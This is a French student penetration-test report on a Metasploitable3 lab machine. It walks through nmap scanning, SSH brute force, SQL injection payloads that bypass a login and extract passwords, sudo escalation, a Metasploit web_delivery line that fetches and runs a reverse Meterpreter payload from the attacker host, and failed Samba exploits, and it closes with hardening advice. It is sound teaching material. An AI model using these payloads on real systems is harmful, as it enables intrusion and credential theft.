**| E4 - Metz - CACCIATORE Vincent |**  
**| avec GRECO Clément |**  
# Rapport de Pentest – Hypermarché

## 📑 Table des matières
1. [Introduction](#introduction)
2. [Méthodologie](#méthodologie)
3. [Reconnaissance réseau](#reconnaissance-réseau)
4. [Exploitation des services](#exploitation-des-services)
   - [4.1 FTP (21/tcp)](#41-ftp-21tcp)
   - [4.2 SSH (22/tcp)](#42-ssh-22tcp)
   - [4.3 Apache (80/tcp)](#43-apache-80tcp)
   - [4.4 CUPS (631/tcp)](#44-cups-631tcp)
   - [4.5 MySQL (3306/tcp)](#45-mysql-3306tcp)
   - [4.6 Samba (445/tcp)](#46-samba-445tcp)
   - [4.7 Jetty / Apache Continuum (8080/tcp)](#47-jetty--apache-continuum-8080tcp)
5. [Tableau récapitulatif](#tableau-récapitulatif)
6. [Conclusion générale](#conclusion-générale)
7. [Bilan](#)

---

## 1. Introduction

### Objectif du projet
L’objectif est de réaliser un audit de sécurité sur une machine vulnérable (Metasploitable3) afin d’identifier et d’exploiter des failles.  
L’entreprise souhaite comprendre les risques liés à ce serveur et obtenir des recommandations pour renforcer sa sécurité.  

### Contexte
L’entreprise a reçu une alerte concernant une possible exploitation de failles sur un ancien serveur.  
Notre rôle est de réaliser un pentest interne pour :  
- Détecter les machines présentes sur le réseau.  
- Identifier les services exposés.  
- Exploiter les vulnérabilités.  
- Proposer des mesures de sécurisation.  

### Environnement de test
- **Attaquant** : Kali Linux (VM, mode réseau *bridged*).  
- **Cible** : Metasploitable3 (VM Ubuntu 14.04).  
- **Réseau** : 192.168.1.0/24 (réseau interne).  

### Schéma


---

## 2. Méthodologie

La méthodologie suivie est inspirée des étapes classiques d’un test d’intrusion :  

1. **Reconnaissance** : découverte des hôtes actifs.  
2. **Scan de ports** : identification des services ouverts.  
3. **Énumération** : collecte d’informations sur les services.  
4. **Exploitation** : compromission des services vulnérables.  
5. **Post-Exploitation** : élévation de privilèges, récupération d’informations.  
6. **Recommandations** : propositions de sécurisation.  

---

## 3. Reconnaissance du réseau

La reconnaissance est une étape essentielle en pentest. Elle permet d’identifier d’abord les machines actives sur le réseau, puis d’analyser leurs services et les versions exposées.  

### 3.1 Découverte des hôtes actifs

#### Commande
```bash
nmap -sn 192.168.1.0/24
```

#### Explication
- L’option `-sn` (ping scan) permet de détecter **quelles machines sont en ligne** sans analyser les ports.  
- Cette étape sert à établir une **cartographie initiale du réseau**.  

#### Résultat
  

#### Analyse
- **8 hôtes** ont répondu au scan.  
- Parmi eux, `192.168.1.32` est identifié comme **Metasploitable3**, qui sera notre cible principale.  

---

### 3.2 Scan des ports ouverts

#### Commande
```bash
nmap -T5 192.168.1.0/24
```

#### Explication
- L’option `-T5` rend le scan **rapide et agressif** (adapté en labo, détectable en production).  
- Cette étape permet d’identifier **les services accessibles** (ports ouverts) sur les machines découvertes.  

#### Résultat
  

#### Analyse (synthèse des hôtes scannés)
| IP             | Ports ouverts              | Services principaux        | Commentaire          |
|----------------|----------------------------|----------------------------|----------------------|
| 192.168.1.1    | 53, 80, 443               | DNS, HTTP, HTTPS           | Routeur Livebox      |
| 192.168.1.16   | 80, 443, 3306, 5060…      | Web, DB, VoIP              | Machine ASUS         |
| 192.168.1.32   | 22, 80, 445, 631, 3306…   | SSH, HTTP, SMB, MySQL      | **Cible principale** |

- La machine cible (`192.168.1.32`) expose plusieurs services critiques : **SSH, HTTP, SMB, MySQL, Serveur Web sur 8080**.  
- Ces services représentent des **points d’entrée potentiels**.  

---

### 3.3 Identification des services et versions

#### Commande
```bash
nmap -Pn -sV 192.168.1.32
```

#### Explication
- `-Pn` : désactive la détection par ping (utile si ICMP bloqué).  
- `-sV` : détecte les **versions des services** associés aux ports ouverts.  
- Objectif : déterminer si ces versions sont vulnérables (obsolètes, connues pour des CVE).  

#### Résultat


#### Analyse
Les versions exactes des services exposés (Apache, MySQL, Samba…) ont été identifiées.  
Ces informations serviront à sélectionner des **exploits adaptés** dans Metasploit ou à rechercher des vulnérabilités publiques :
- 21/tcp - service FTP permettant le transfert de fichiers.
- 22/tcp – OpenSSH 6.6.1p1 : version obsolète d’OpenSSH, pouvant contenir des vulnérabilités connues.

- 80/tcp – Apache httpd 2.4.7 : serveur web ancien (2014), vulnérable à plusieurs failles (CVE connues).

- 445/tcp – Samba smbd 3.x – 4.x : service SMB souvent exploitable (ex : EternalBlue, CVE-2017-0144).

- 631/tcp – CUPS 1.7 : service d’impression réseau, généralement inutile et vulnérable.

- 3306/tcp – MySQL (unauthorized) : base de données MySQL exposée, risque d’accès non authentifié ou bruteforce.

- 8080/tcp – Jetty 8.1.7 : serveur d’applications Java obsolète (2012), vulnérable à des attaques web (RCE).

--> Ces versions datées constituent des vecteurs d’attaque majeurs. Elles serviront de base pour l’exploitation via Metasploit ou recherches de CVE.

---

## 4. Exploitation des services

### 4.1 🔹 SSH (22/tcp – OpenSSH 6.6.1p1)

#### 🎯 Objectif
Accéder au serveur via une session SSH (remote shell).

#### 🔎 Étape 1 – Identification
- Version détectée : **OpenSSH 6.6.1p1 (Ubuntu 12.13)**.  
- Date de sortie : 2014 (très ancien, obsolète).  

#### 🛡️ Vulnérabilités connues (CVE)
- **CVE-2015-5600** : permet d’augmenter l’efficacité d’attaques par brute-force (défaut dans l’auth keyboard-interactive).  
- **CVE-2016-6515** : fuite d’informations pouvant aider un attaquant à profiler le service.  

#### 🛠️ Étape 2 – Énumération
On se base sur une wordlist pré-existante et très légère :

Bruteforce avec Hydra :  
```bash
hydra -L users.txt -P wordlist.txt ssh://192.168.1.32
```


Grâce à nos combolists, on a réussi à obtenir login et mot de passe.

#### 🚀 Étape 3 – Exploitation
Via Metasploit :  
```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.1.32
set USERNAME vagrant
set PASSWORD vagrant
run
```

#### 📸 Résultat attendu
- Connexion réussie :  
```bash
session -i 1
whoami
uname -a
```



#### ✅ Conclusion
- **Impact** : accès à distance à la machine, compromission de comptes faibles.  
- **Recommandations** :  
  - Interdire l’accès SSH root.  
  - Désactiver les comptes par défaut.  
  - Mettre à jour OpenSSH.  
  - Utiliser l’authentification par clé publique.  

---

### 4.2 🔹 Apache (80/tcp – Apache HTTPD 2.4.7)

#### 🎯 Objectif
Analyser et exploiter le serveur web exposé sur le port 80 afin d’identifier d’éventuelles vulnérabilités.

#### 🔎 Étape 1 – Identification
- Version détectée via Nmap : **Apache httpd 2.4.7**  
- Date de sortie : 2013–2014 → version obsolète, vulnérable à plusieurs attaques connues.  

#### 🛡️ Vulnérabilités connues (CVE)
- **CVE-2017-3167** : vulnérabilité dans l’authentification digest → contournement possible.  
- **CVE-2017-3169** : vulnérabilité d’authentification basic.  
- **CVE-2017-7679** : vulnérabilité dans `mod_mime` → exécution de code à distance (RCE).  
- **CVE-2017-9798 (Optionsbleed)** : fuite d’informations via l’en-tête `Allow` en cas de mauvaise configuration.  

#### 🛠️ Étape 2 – Énumération
1. Scanner les vulnérabilités connues avec **Nikto** :  
```bash
nikto -h http://192.168.1.32
```


- Headers de sécurité manquants (X-Frame-Options, X-Content-Type-Options) → faiblesse côté sécurité applicative.

- Directory indexing activé → n’importe qui peut lister les fichiers si pas d’index.html.

- phpMyAdmin détecté → accessible publiquement sur /phpmyadmin/.

- Version indiquée : PHP 5.4.5 (très ancienne, fin de vie depuis 2015).

- phpMyAdmin est connu pour avoir des vulnérabilités d’auth bypass, XSS, et RCE (exemple : CVE-2016-5734).

- Apache 2.4.7 → obsolète (dernière version 2.4.54+).
  
2. Scan avec gobuster :

```bash
gobuster dir -u http://192.168.1.32 -w /usr/share/wordlists/dirb/common.txt
```



Résultats principaux :

- */chat/* : application web de discussion.

- */drupal/* : CMS Drupal détecté (souvent vulnérable selon la version).

- */phpmyadmin/* : interface phpMyAdmin trouvée.

- */uploads/* : répertoire accessible pouvant contenir des fichiers malveillants uploadés.

3. Vérification phpMyAdmin :

```bash
curl -I http://192.168.1.32
```


- Cela confirme la présence de phpMyAdmin.
- Accessible publiquement sans restriction.

#### 🚀 Étape 3 – Exploitation – Application Payroll (`payroll_app.php`)

##### 1. Bypass d’authentification (SQL Injection)
Le formulaire de connexion de `payroll_app.php` était vulnérable à une injection SQL basique.  
En injectant :
```sql
' OR 1=1#
```




Il a été possible de contourner l’authentification et d’accéder directement à l’application.  

##### 2. Exfiltration d’identifiants (SQL Injection – UNION SELECT)
Une injection plus avancée a permis d’exfiltrer les identifiants stockés en base de données :  
```sql
' UNION SELECT null, null, username, password FROM users#
```

📋 Exemple d’identifiants découverts :
- `luke_skywalker : like_my_father_beforeme`
- `leia_organa : help_me_obiwan`
- `han_solo : nerf_herder`

##### 3. Rebond SSH avec identifiants volés
Les identifiants extraits ont été testés sur le service SSH (22/tcp).  
Le compte **`luke_skywalker`** a permis une connexion réussie :

```bash
ssh luke_skywalker@192.168.1.32
password: like_my_father_beforeme
```

---

##### 4. Escalade de privilèges
L’utilisateur `luke_skywalker` appartient au groupe `sudo`.  
Une élévation de privilèges simple a permis d’obtenir l’accès root :

```bash
sudo su
# Password: like_my_father_beforeme
```

👉 Accès **root** obtenu.

#### 🚀 Étape 3.1 – Exploitation Apache/PHP via Metasploit (Web Delivery)

##### Mise en place du module
Le module utilisé est :

```
multi/script/web_delivery
```

Configuration d’un payload PHP reverse Meterpreter :

```bash
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.34
set LPORT 4444
run
```

##### Exécution du payload côté cible
La commande injectée via PHP :

```bash
php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.1.34:8080/IRS7Rw5rWhvs'));"
```


##### Résultat
- Session **Meterpreter** ouverte avec succès.  
- Contrôle complet de la machine cible via Apache/PHP.  


Ainsi, le service Apache a fourni **plusieurs vecteurs d’attaque critiques** :  
- Mauvaise configuration de **phpMyAdmin** (root sans mot de passe).  
- Application **Payroll** vulnérable à SQL Injection → récupération de mots de passe → SSH root.  
- Exploitation directe via **Metasploit (web_delivery)** → session Meterpreter.  

➡ Apache est clairement **le point d’entrée majeur** dans le système, offrant plusieurs chemins vers une compromission totale.

---
### 4.3 🔹 Samba (445/tcp – SMB 3.x–4.x)

#### 🎯 Objectif
Évaluer le service SMB pour identifier des partages non sécurisés et tenter des exploits connus (RCE) sur Samba.

#### 🔎 Étape 1 – Identification
- Port détecté par Nmap : **445/tcp** (microsoft-ds / Samba smbd 3.x–4.x).
- Remarque : le port **139/tcp (NetBIOS-SSN)** n’apparaît pas ouvert dans nos scans.


#### 🛠️ Étape 2 – Énumération (informations & partages)
Lister au maximum avant d’exploiter.

```bash
# Enumération complète
enum4linux -a 192.168.1.32

# Liste les partages (sans mot de passe)
smbclient -L //192.168.1.32/ -N
```

Résultats obtenus :

- **Partages détectés :**
  - `print$` → Partage système (drivers).
  - `public` → Partage déclaré comme "WWW", mais accès refusé (DENIED).
  - `IPC$` → Partage technique de communication, non exploitable directement.

- **Utilisateurs identifiés :**
  - `chewbacca` (RID 1000)
  - `nobody`
  - Groupes locaux détectés : Administrators, Users, Guests, Power Users, etc.

- **Politique de mot de passe :**
  - Longueur minimale : 5 caractères.
  - Complexité désactivée (faible niveau de sécurité).
  - Aucun verrouillage de compte après tentatives multiples.

➡️ Ces informations montrent que, même si aucun partage accessible n’est exploitable directement, il est possible de **récupérer des usernames valides** et de constater une **politique de mot de passe faible**, ce qui augmente les risques de compromission via des attaques par bruteforce sur d’autres services.

#### 🚀 Étape 3.1 – Exploitation #1 : CVE-2007-2447 (usermap_script)
Exécution de commandes via `username map script` (vieux Samba 3.0.x — exploite NetBIOS/port 139).

```bash
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.1.32
set PAYLOAD cmd/unix/reverse
set LHOST 192.168.1.30
set LPORT 4444
run
```

**Résultat obtenu :**


**Analyse :**
- Cet exploit cible **Samba 3.0.x** via **port 139**.
- Or, sur la cible, **139/tcp n’est pas ouvert** → le module ne peut pas fonctionner.
- **Conclusion partielle :** CVE-2007-2447 **non exploitable** dans cette configuration.

#### 🚀 Étape 3.2 – Exploitation #2 : CVE-2017-7494 (SambaCry – is_known_pipename)
RCE possible **uniquement** si un partage **en écriture** est accessible (permet de déposer une librairie malveillante).

```bash
use exploit/linux/samba/is_known_pipename
set RHOSTS 192.168.1.32
set LHOST 192.168.1.30
run
```

**Résultat obtenu :**


**Analyse :**
- L’exploit **nécessite un partage en écriture** (ex. `tmp`, `public`) pour charger le code.
- **Aucun partage en écriture** n’a été détecté par le module → **pas de cible**.
- **Conclusion partielle :** CVE-2017-7494 **non exploitable** dans l’état actuel.

#### 📸 Résumé factuel (ce qui marche / ne marche pas)
- **Énumération SMB** : réalisable (partages listés si présents).  
- **CVE-2007-2447 (usermap_script)** : ❌ échec — **port 139 fermé/non joignable**.  
- **CVE-2017-7494 (SambaCry)** : ❌ échec — **aucun partage en écriture** trouvé → pas de cible.

#### 🔍 Vérification des autres modules Samba disponibles dans Metasploit
```bash
search samba
```
Une recherche élargie dans Metasploit montre l’existence d’autres modules d’exploitation liés à Samba :  

- `exploit/linux/samba/lsa_transnames_heap` (CVE-2003-0201) → cible Samba 2.x uniquement.  
- `exploit/linux/samba/chain_reply` (CVE-2015-0240) → cible Samba 4.0.0 à 4.2.0rc4.  
- `exploit/linux/samba/setinfopolicy_heap` (CVE-2003-0201).  
- `exploit/linux/samba/trans2open` (CVE-2003-0201).  

**Analyse :**  
- Ces modules sont présents dans Metasploit, mais ne concernent pas la version installée sur la cible (Samba 3.x–4.x sous Ubuntu 14.04).  
- Ils n’ont donc pas été testés, car **non applicables dans ce contexte**.

➡️ Cela confirme que, parmi les failles connues exploitables avec Metasploit, seules **CVE-2007-2447** et **CVE-2017-7494** s’appliquaient potentiellement à notre cible, mais n’ont pas abouti.


#### ✅ Conclusion
Aucune **RCE directe via Samba** n’a pu être obtenue dans cette configuration précise :
- L’exploit **CVE-2007-2447** échoue car il repose sur **139/tcp**, non exposé ici.
- L’exploit **CVE-2017-7494** échoue faute de **partage en écriture** (pré-requis).

> **Néanmoins**, SMB **reste une surface utile** : l’énumération peut révéler des **fichiers sensibles**, des **users**, ou des **mots de passe** réutilisés sur d’autres services (SSH/MySQL).  
> Dans un environnement "réel", une **mauvaise configuration ultérieure** (ex. ouverture d’un partage `public` en écriture) rendrait **CVE-2017-7494 immédiatement exploitable**.

#### 🛡️ Recommandations
1. **Mettre à jour Samba** vers une version maintenue et corriger régulièrement.
2. **Désactiver** les partages inutiles ; **interdire l’écriture** sauf nécessité.
3. **Restreindre l’accès** SMB aux IP internes/segmentées (pare-feu).
